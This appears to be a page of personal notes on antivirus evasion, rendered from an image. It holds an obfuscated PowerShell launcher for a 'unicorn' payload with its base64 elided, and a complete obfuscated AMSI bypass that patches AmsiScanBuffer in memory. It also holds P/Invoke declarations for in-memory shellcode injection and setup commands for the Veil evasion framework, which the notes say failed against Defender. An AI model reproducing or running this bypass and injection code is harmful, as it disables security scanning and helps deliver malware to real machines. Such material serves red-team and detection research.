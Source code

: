 ```shell
powershell /w 1 /C "sv cl -;sv Ovz ec;sv aUM ((gv cl).value.toString()+(gv Ovz).value.toString());powershell (gv aUM).value.toString() ('JABRAH...A LOT OF BASE64...AANgApAA==')"

# actual unicorn payload
powershell /w 1 /C "sv cl -;sv Ovz ec;sv aUM ((gv cl).value.toString()+(gv Ovz).value.toString());powershell (gv aUM).value.toString() ('JABGAGMAPQAnA...A LOT OF BASE64...EAdABGUA')"
```

### AMSI bypass code (obfuscated)
```powershell
$QtJkcj = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
	[DllImport("k"+"e"+"rnel32")]public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	[DllImport("k"+"e"+"rnel32")] public static extern IntPtr LoadLibrary(string name);
	[DllImport("k"+"e"+"rnel32")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $QtJkcj;
$rzBqCSwe = [Win32]::GetProcAddress([Win32]::LoadLibrary("Am"+"s"+"i."+"d"+"ll"), "Am"+"s"+"iSc"+"a"+"nBu"+"f"+"fer");
$sLLrKzfP = 0;
[Win32]::VirtualProtect($rzBqCSwe, [uint32][uint32]5, 0x40, [ref]$sLLrKzfP);
$vRfPAG = ("}xLDdgMsOJI, }xMLHZZFmHh, }x}}, }x}7, }x8}, }xC3").replace("MLHZZFmHh", "57").replace("}", "0").replace("LDdgMsOJI", "B8");
$vRfPAG = [Byte[]]($vRfPAG).split(",");
[System.Runtime.InteropServices.Marshal]::Copy($vRfPAG, 0, $rzBqCSwe, 6);
```

### unicorn payload (obfuscated): some version of in-memory injection
```c
[DllImport(("msvcr"+"t"+".dll"))]public static extern IntPtr calloc(uint dwSize, uint amount);
[DllImport("k"+"e"+"rnel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("k"+"e"+"rnel32.dll")]public static extern IntPtr VirtualProtect(IntPtr lpStartAddress, uint dwSize, uint flNewProtect, out uint aCX);
[DllImport("msvcr"+"t"+".dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);
```

---

## Veil framework: didn't work against defender (31/7/2022)
### installation
```bash
apt-get install veil
usr/share/veil/config/setup.sh --force --silent
```
### run it from terminal
```bash
veil
```

---